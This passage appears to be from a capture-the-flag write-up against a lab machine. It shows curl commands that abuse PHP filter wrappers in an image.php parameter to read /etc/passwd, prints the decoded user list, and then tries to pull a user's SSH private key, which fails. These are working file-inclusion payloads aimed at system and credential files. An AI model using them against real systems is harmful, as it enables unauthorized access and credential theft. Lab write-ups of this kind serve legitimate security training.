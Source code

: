         ```bash
        ❯ curl "http://10.10.11.135/image.php?img=php://filter/read=string.rot13/resource=/etc/passwd"
        ```
    - BASE64: Success!!!
        ```bash
        ❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd"
        ```
The content of /etc/passwd is returned enconded, after decoding it we obtain:
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
aaron:x:1000:1000:aaron:/home/aaron:/bin/bash
```
So we can enumerate the users with a shell:
| UID | Username | Shell |
| :-: |:--------:|:-----:|
|  0  | root     | /bin/bash |
| 1000 | aaron   | /bin/bash |

## Exploit
Now that we have a way to extract files from the system and we know the user `aaron`, we can try to gain access as aaron:
### SSH Key Leakage
Extract id_rsa file from `/home/aaron/.ssh/`, and use it to connect to the system.
```bash
❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/home/aaron/.ssh/id_rsa"
```
The file seems unaccessible from the web.
